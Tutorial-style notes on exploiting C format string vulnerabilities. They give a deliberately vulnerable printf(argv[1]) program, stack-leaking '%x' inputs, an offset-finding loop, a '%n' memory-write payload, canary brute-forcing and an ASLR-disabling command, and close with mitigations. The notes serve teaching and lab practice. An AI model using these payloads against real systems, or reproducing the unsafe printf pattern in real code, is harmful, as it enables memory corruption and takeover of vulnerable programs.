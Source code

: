 # Format String Bugs Exploitation Notes

## 1. Introduction to Format String Vulnerabilities

**Vulnerable Example:**
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv) {
    if (argc < 2) return EXIT_FAILURE;
    printf(argv[1]); // Vulnerable!
    return EXIT_SUCCESS;
}
```

**Demonstration:**
```bash
./vulnerable 'hello'          # Output: hello
./vulnerable '%x'             # Leaks stack content
./vulnerable '%x.%x.%x'       # Leaks multiple stack values
```

**Why Dangerous?**
- Allows arbitrary reading and writing in memory.

---

## 2. Variadic Functions & Stack Interaction

Variadic functions (`printf`, `sprintf`, etc.) allow exploitation by misusing format specifiers to access stack data.

**Common vulnerable functions:**
- `printf`, `fprintf`, `sprintf`, `snprintf`, `syslog`, etc.

---

## 3. Important Format Specifiers

### Read Specifiers:
| Specifier | Description                    |
|-----------|--------------------------------|
| `%d`      | Decimal integer                |
| `%x`      | Hexadecimal integer            |
| `%s`      | String                         |
| `%p`      | Pointer (hexadecimal)          |

### Write Specifiers (for exploitation):
| Specifier | Description                            |
|-----------|----------------------------------------|
| `%n`      | Write number of chars printed (4 bytes)|
| `%hn`     | Write number of chars (2 bytes)        |
| `%hhn`    | Write number of chars (1 byte)         |

### Direct Stack Access:
- `%3$x`: Access 3rd argument on stack directly.

---

## 4. Basic Exploitation Steps

### Step 1: Reading Memory
```bash
./vulnerable '%x %x %x'  # Reads multiple stack entries
```

### Step 2: Overwriting Memory (`%n`)
Goal: Overwrite integer value at specific memory location.

#### Example:
```c
void foo(char *string) {
    int target = 0; // Overwrite here!
    printf(string);
    if (target == 0xdeadbeef)
        printf("You win!\n");
}
```

Exploit steps:
1. Insert address of `target` in payload.
2. Locate payload address on stack.
3. Replace `%x` with `%n` to write data.

#### Finding correct index:
```bash
for i in $(seq 1 50); do 
    echo "$i: $(./vuln "$(echo -e "AAAA%$i\$x")")"
done
# Look for output: 41414141 (hex for 'AAAA')
```

Exploit payload:
```bash
./vuln "$(echo -e "\x78\xd0\xff\xff%7\$n")"
```

---

## 5. Stack-Smashing Protector (Canary)

### Principle:
- Canary: A random value placed on stack to detect buffer overflow.

### GCC Stack Protector Options:
- `-fstack-protector`: Adds basic canaries.
- `-fstack-protector-strong`: Adds protection to more functions.
- `-fstack-protector-all`: Protects all functions.

### Canary Bypass (fork server scenario):
- Brute-force byte-by-byte (max 1024 attempts).

---

## 6. Mitigations & Countermeasures

### Compiler Checks:
```bash
gcc -Wformat -Wformat-overflow -Wformat-security
```

- Use static code analysis and safe coding practices.
- Avoid using unsanitized user inputs as format strings.

---

## 7. Real-world Example (Automotive Industry)

- Format string vulnerability in BMW, Audi, Mercedes Bluetooth registration systems.
- Attacker-controlled Bluetooth names trigger exploit.

---

## 8. Practical Exploitation Tips:

- Disable ASLR (`echo 0 > /proc/sys/kernel/randomize_va_space`) for controlled testing.
- Always test in safe environments (e.g., VMs).
